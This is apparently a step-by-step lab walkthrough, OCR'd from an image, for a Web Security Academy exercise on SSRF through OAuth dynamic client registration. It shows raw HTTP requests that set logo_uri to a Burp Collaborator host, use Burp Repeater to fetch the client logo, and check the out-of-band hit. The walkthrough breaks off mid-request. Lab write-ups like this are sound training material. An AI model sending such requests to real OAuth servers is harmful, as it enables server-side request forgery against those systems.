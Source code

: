 ```bash
{
"redirect_uris": [
  "https://test.com"
],
"logo_uri":"https://68cpbgmuwryzmyy7e56mbeqzkqqge5.oastify.com"
}

Response:

"client_id":"tAW4exlC5JSzaYlGz5yFJ"

Copy the client_id value
Go to: Repeater
Find:

GET /client/wlx1vcpjkusmdyc4iz67a/logo HTTP/1.1

Change:

GET /client/wlx1vcpjkusmdyc4iz67a/logo HTTP/1.1

To

GET /client/tAW4exlC5JSzaYlGz5yFJ/logo HTTP/1.1

Send
Go to Burp Collaborator client -> Poll now
Find:
Type: HTTP
Go to: Response from Collaborator
Response:

HTTP/1.1 200 OK

Go to: Repeater
Find:

POST /reg HTTP/1.

Change:

POST /reg HTTP/1.1
Host: oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net
Content-Type: application/json
Content-Length: 115

{
"redirect_uris": [
  "https://test.com"
],
"logo_uri":"https://68cpbgmuwryzmyy7e56mbeqzkqqge5.oastify.com"
}

To

POST /reg HTTP/1.1
Host: oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net
Content-Type: application/json
Content-Length: 139

{
"redirect_uris": [
  "https://test.com"
```